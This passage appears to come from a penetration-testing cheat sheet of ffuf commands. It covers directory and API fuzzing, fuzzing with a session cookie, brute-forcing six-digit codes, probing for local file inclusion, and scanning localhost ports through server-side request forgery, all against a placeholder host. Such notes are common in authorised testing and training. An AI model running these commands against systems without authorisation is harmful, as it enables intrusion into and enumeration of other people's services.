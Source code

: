 ### Using a Request File

```console
$ ffuf -request <FILE> -w /usr/share/wordlists/dirb/common.txt
```

### API Fuzzing

```console
$ ffuf -u https://<RHOST>/api/v2/FUZZ -w api_seen_in_wild.txt -c -ac -t 250 -fc 400,404,412
```

### Fuzzing with PHP Session ID

```console
$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt  -u "http://<RHOST>/admin/FUZZ.php" -b "PHPSESSID=a0mjo6ukbkq271nb2rkb1joamp" -fw 2644
```

### Fuzzing with HTTP Request File

```console
$ ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -request <FILE> -request-proto "https" -mc 302 -t 150 | tee progress
```

### Searching for LFI

```console
$ ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349
```

### Server-Side Request Forgery (SSRF)

```console
$ seq 1 65535 | ffuf -w - -u http://<RHOST> -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2Flocalhost%3AFUZZ'
```

```console
$ seq 1 65535 | ffuf -w - -u http://<RHOST> -X POST -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylUeVtv36vebZPACI" -d '------WebKitFormBoundarylUeVtv36vebZPACI            
Content-Disposition: form-data; name="foobar"

http://127.0.0.1:FUZZ
------WebKitFormBoundarylUeVtv36vebZPACI
Content-Disposition: form-data; name="foobar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylUeVtv36vebZPACI--' -fr "<PATTERN>"
```

#### Request File Example
